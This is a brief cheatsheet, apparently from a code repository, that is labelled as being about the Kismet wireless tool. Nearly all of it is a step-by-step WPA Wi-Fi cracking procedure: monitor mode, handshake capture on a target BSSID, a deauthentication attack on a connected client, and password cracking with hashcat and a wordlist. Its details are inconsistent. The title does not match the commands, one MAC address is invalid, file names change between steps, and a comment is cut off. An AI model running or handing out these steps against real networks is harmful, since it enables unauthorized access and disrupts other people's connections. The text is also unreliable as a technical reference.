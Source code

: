 Kismet Cheatsheet
--------------------------------
Kismet is a wireless network and device detector, sniffer, wardriving tool, and WIDS (wireless intrusion detection) framework.

Kismet works with Wi-Fi interfaces, Bluetooth interfaces, some SDR (software defined radio) hardware like the RTLSDR, and other specialized capture hardware.

[+] Commands

## Turn Interface down
ifconfig wlan0 down

## Set monitor mode
iwconfig wlan0 mode monitor

# Set interface up
ifconfig wlan0 up

# Start listening for all nearby beacon frames to get target BSSID and 
airodump-ng wlan0 --band abg

# Set 5 GHz channel
iwconfig wlan0 channel 149

# Start listening for the handshake
airodump-ng -c 149 --bssid P4:E4:E4:92:60:71 -w cap01.cap wlan0

# Optionally deauth a connected client to force a handshake
aireplay-ng -D -0 2 -a 9C:5C:8E:C9:AB:C0 -c P4:E4:E4:92:60:71 wlan0

# Convert cap to hccapx
aircrack-ng -J file.cap capture.hccap

# Crack with hashcat:
hashcat -m 2500 captureallthewireless-05.cap rockyou.txt
